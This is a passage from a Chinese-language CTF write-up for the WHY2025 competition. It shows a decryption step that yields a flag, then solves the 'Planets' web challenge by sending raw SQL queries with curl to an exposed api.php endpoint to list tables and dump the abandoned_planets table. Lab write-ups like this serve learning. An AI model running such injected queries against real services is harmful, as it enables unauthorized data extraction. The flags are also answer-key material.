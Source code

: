 接著用寫好的 python 去解密就可以得到原本的檔案了

```bash
python decrypt_encryptur.py important_file.txt.encrypted
```

打開檔案就能看到 flag

![](/assets/WHY2025/IMG-20250809022836481.png)

```txt
flag{ad1c53bf1e00a9239d29edaadcda2964}
```

![](/assets/WHY2025/IMG-20250809022722291.png)

## Web

### Planets (50)

這是開賽的時候看的第一題，星球太多了不知道開哪一顆，先隨便看看

這一題可以在 source code 看到可以做 sql 查詢的地方

![](/assets/WHY2025/IMG-20250809003809091.png)

先確認一下具體有哪些 table

```sh
curl -X POST "https://planets.ctf.zone/api.php" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "query=SELECT table_name FROM information_schema.tables WHERE table_schema=database()"

```

![](/assets/WHY2025/IMG-20250809005159998.png)

發現了一個多的 table `abandoned_planets`，把 table 裡面的東西都先撈出來

```sh
curl -X POST "https://planets.ctf.zone/api.php" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "query=SELECT * FROM abandoned_planets"
```

就看到 flag 了

![](/assets/WHY2025/IMG-20250809005401005.png)

啊但是，解太慢，隊友寫掉了嘿嘿，沒注意 xd

![](/assets/WHY2025/IMG-20250809005351606.png)

### WHY2025 CTF TIMES (50)

一進去網站會有很多彈出視窗，我剛開始還在懷疑是不是跟 cookie 有關
